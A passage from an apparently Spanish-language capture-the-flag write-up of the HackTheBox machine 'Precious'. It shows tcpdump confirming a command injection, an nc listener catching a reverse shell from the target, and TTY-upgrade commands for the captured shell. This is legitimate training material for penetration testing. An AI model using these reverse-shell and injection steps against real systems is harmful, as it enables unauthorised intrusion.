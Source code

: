 ```bash
$ sudo tcpdump -i tun0 icmp
[sudo] password for kali: 
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
12:05:23.056696 IP precious.htb > 10.10.16.22: ICMP echo request, id 58550, seq 1, length 64
12:05:23.056747 IP 10.10.16.22 > precious.htb: ICMP echo reply, id 58550, seq 1, length 64
12:05:24.060942 IP precious.htb > 10.10.16.22: ICMP echo request, id 58550, seq 2, length 64
12:05:24.060971 IP 10.10.16.22 > precious.htb: ICMP echo reply, id 58550, seq 2, length 64
12:05:25.063049 IP precious.htb > 10.10.16.22: ICMP echo request, id 58550, seq 3, length 64
12:05:25.063100 IP 10.10.16.22 > precious.htb: ICMP echo reply, id 58550, seq 3, length 64
12:05:26.063476 IP precious.htb > 10.10.16.22: ICMP echo request, id 58550, seq 4, length 64
12:05:26.063518 IP 10.10.16.22 > precious.htb: ICMP echo reply, id 58550, seq 4, length 64
12:05:27.064799 IP precious.htb > 10.10.16.22: ICMP echo request, id 58550, seq 5, length 64
12:05:27.064818 IP 10.10.16.22 > precious.htb: ICMP echo reply, id 58550, seq 5, length 64
```
Y tenemos un command injection operativo. Lo siguiente es tratar de mandarnos una shell, esto lo haré con el típico comando de reverse shell.
<img class="img" src="/assets/img/machines/Precious/5.png" width="1000">
```bash
nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.16.22] from (UNKNOWN) [10.129.174.111] 33694
bash: cannot set terminal process group (681): Inappropriate ioctl for device
bash: no job control in this shell
ruby@precious:/var/www/pdfapp$ whoami
whoami
ruby
```
# Shell como Henry
Primero haremos un tratamiento de la tty.
```bash
ruby@precious:/var/www/pdfapp$ script /dev/null -c bash
script /dev/null -c bash
Script started, output log file is '/dev/null'.
ruby@precious:/var/www/pdfapp$ ^Z
[1]  + 4388 suspended  nc -nlvp 443
CTRL + Z
$ stty raw -echo;fg
[1]  + 4388 continued  nc -nlvp 443

ruby@precious:/var/www/pdfapp$ export TERM=xterm
ruby@precious:/var/www/pdfapp$ export SHELL=bash
ruby@precious:/var/www/pdfapp$ stty rows 48 columns 238
ruby@precious:/var/www/pdfapp$
```